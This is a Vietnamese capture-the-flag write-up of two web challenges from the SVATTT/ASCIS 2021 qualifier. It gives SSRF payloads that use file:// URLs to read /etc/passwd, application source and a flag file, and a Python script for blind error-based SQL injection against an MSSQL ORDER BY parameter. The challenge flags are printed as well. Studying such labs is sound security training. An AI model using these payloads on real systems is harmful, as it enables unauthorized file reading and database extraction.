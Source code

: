# \[Web] SVATTT2021

![ASCIS 2021 - Quals](<../.gitbook/assets/image (3).png>)

### OProxy

Link: [http://125.235.240.166:8000](http://125.235.240.166:8000)

[
\
](http://125.235.240.166:8000)

![](<../.gitbook/assets/image (2).png>)

Bài này ta nhận được 1 form login, nhiệm vụ của mình là tạo 1 account và xem xét các chức năng có sẵn, sau đó sẽ dựa vào tính năng "View website by proxy" để thực hiện việc bypass

Lúc làm bài này thì mình khá bí và tốn thời gian suy nghĩ vì không biết nên làm thế nào, sau đó nhờ 1 tiền bối gợi ý thì giải pháp làm bài này sẽ như sau:

&#x20;

![](../.gitbook/assets/image.png)

* Mình sẽ thực hiện việc truyền 1 URL thông qua form này, sau đấy sử dụng BurpSuite chặn lại trước khi request được chuyển đi và thực hiện payload sau đây.
* `csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Nói rõ hơn, giai đoạn mình thực hiện fuzz như sau:

`csrf_token=[token]&url=file://127.0.0.1/etc/passwd&Submit=Go%21`

![](../.gitbook/assets/ảnh.png)

Để ý server respose header Werkzeug/1.01 Python/3.10.0, tiếp tục fuzz

`csrf_token=[token]&url=file://127.0.0.1/app/main.py&Submit=Go%21`

![](<../.gitbook/assets/ảnh (1).png>)

`csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Flag: ASCIS{SSRF\_M3mcached\_inj3cti0n}



### script kiddie

\
Link: [http://167.172.85.253/web100/?sort=name
\
](http://167.172.85.253/web100/?sort=name)

![](<../.gitbook/assets/image (1).png>)

Đầu tiên khi vào link đề cho ta sẽ thấy thông tin hiển thị như ở dưới đây

![](<../.gitbook/assets/image (4).png>)

Đề đã cho ta những thông tin cần thiết, đầu tiên như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với CSDL được dùng ở đây là MSSQL. Câu query như sau:  SELECT \* FROM … ORDER BY $sort ASC

`Giá trị của biến `$sort`  ta có thể control thông qua param  `?sort=



```
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
//Code tham khảo từ https://kcsc-club.github.io/2021/10/18/svattt2021-quals/#web			
```

![](<../.gitbook/assets/ảnh (2).png>)

Flag: `ASICS{ssalchtiwesmihcueymorf}`



